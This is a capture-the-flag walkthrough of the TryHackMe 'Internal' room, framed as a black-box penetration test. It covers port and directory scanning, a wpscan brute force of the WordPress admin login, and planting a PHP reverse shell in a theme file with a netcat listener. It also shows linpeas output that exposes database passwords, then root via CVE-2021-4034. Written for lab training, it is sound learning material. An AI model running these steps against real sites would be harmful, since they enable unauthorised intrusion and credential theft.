

<!-- TOC -->

- [Internal](#internal)
    - [Scope of Work](#scope-of-work)
    - [Discovery and Scanning](#discovery-and-scanning)
    - [Exploitation](#exploitation)
        - [Shell Stabilization](#shell-stabilization)
    - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

# Internal

[Internal Room](https://tryhackme.com/room/internal)

Penetration Testing Challenge

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

## Scope of Work

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt

Additionally, the client has provided the following scope allowances:

- Ensure that you modify your hosts file to reflect internal.thm
- Any tools or techniques are permitted in this engagement
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.

Note - this room can be completed without Metasploit

| Title | IP Address |
| :---- | :---- |
| Internal | `1*.**.**.***` |

## Discovery and Scanning

```bash
sudo nmap -p- -T4 -Pn 1*.**.**.***
nmap -p22,80 -sV -sC -T4 -Pn -oA initial 1*.**.**.***
```

> ```
> . . .
> PORT   STATE SERVICE VERSION
> 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
> |   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
> |_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
> 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
> |_http-title: Apache2 Ubuntu Default Page: It works
> |_http-server-header: Apache/2.4.29 (Ubuntu)
> Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
> . . .
> ```

```bash
dirsearch -u 1*.**.**.*** -r -t 120
```

> ```
> . . .
> [22:54:33] 200 -    4KB - /blog/wp-login.php                                
> [22:54:33] 301 -  311B  - /blog  ->  http://1*.**.**.***/blog/     (Added to queue)
> [22:54:33] 200 -   53KB - /blog/                                            
> [22:55:00] 200 -   11KB - /index.html                                       
> [22:55:03] 301 -  317B  - /javascript  ->  http://1*.**.**.***/javascript/     (Added to queue)
> [22:55:24] 200 -   13KB - /phpmyadmin/doc/html/index.html                   
> [22:55:26] 301 -  317B  - /phpmyadmin  ->  http://1*.**.**.***/phpmyadmin/     (Added to queue)
> [22:55:29] 200 -   10KB - /phpmyadmin/                                      
> [22:55:29] 200 -   10KB - /phpmyadmin/index.php                             
> [22:55:40] 403 -  277B  - /server-status                                    
> [22:55:41] 403 -  277B  - /server-status/     (Added to queue)              
> [22:56:06] 200 -    4KB - /wordpress/wp-login.php
> . . .
> ```

```
sudo echo "1*.**.**.*** internal.thm" >> /etc/hosts
wpscan --url http://internal.thm/blog -e vp,vt,u --api-token *******************************************
```

> ```
> . . .
> [!] 12 vulnerabilities identified:
> . . .
> . . .
> [+] WordPress theme in use: twentyseventeen
>  | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
>  | Last Updated: 2022-05-24T00:00:00.000Z
>  | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
>  | [!] The version is out of date, the latest version is 3.0
>  | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
>  | Style Name: Twenty Seventeen
> . . .
> . . .
> [+] admin
>  | Found By: Author Posts - Author Pattern (Passive Detection)
>  | Confirmed By:
>  |  Rss Generator (Passive Detection)
>  |  Wp Json Api (Aggressive Detection)
>  |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
>  |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
>  |  Login Error Messages (Aggressive Detection)
> . . .
> ```

```bash
wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 100
```

> ```
> . . .
> [+] Performing password attack on Xmlrpc against 1 user/s
> [SUCCESS] - admin / m******
> . . .
> . . .
> [!] Valid Combinations Found:
>  | Username: admin, Password: m******
> . . .
> ```

## Exploitation

Using `admin:m******`

Go to: `http://internal.thm/blog/wp-login.php`

Replace the `404.php` with [Pentestmonkey php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)



```bash
sudo nc -lvnp 80
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

### Shell Stabilization

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
- `ctrl` + `z`

```bash
stty -a
stty raw -echo; fg
stty rows 34 cols 95
```

Using `linpease`:

> ```
> . . .
> ╔══════════╣ CVEs Check
> Vulnerable to CVE-2021-4034
> . . .
> ╔══════════╣ Users with console
> aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
> root:x:0:0:root:/root:/bin/bash
> . . .
> ╔══════════╣ Analyzing Wordpress Files (limit 70)
> -rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/> wordpress/wp-config.php
> define( 'DB_NAME', 'wordpress' );
> define( 'DB_USER', 'wordpress' );
> define( 'DB_PASSWORD', 'wordpress123' );
> define( 'DB_HOST', 'localhost' );
> . . .
> $dbpass='B2Ud4fEOZmVq';
> $dbuser='phpmyadmin';
> . . .
> ```

## Privilege Escalation

Using [CVE-2021-4034](https://www.exploit-db.com/exploits/50689):

```bash
find / -type f -name user.txt
cat /****/*********/user.txt
```

> `THM{********_****_*}`

```bash
find / -type f -name root.txt
cat /****/root.txt
```

> `THM{******_*********}`
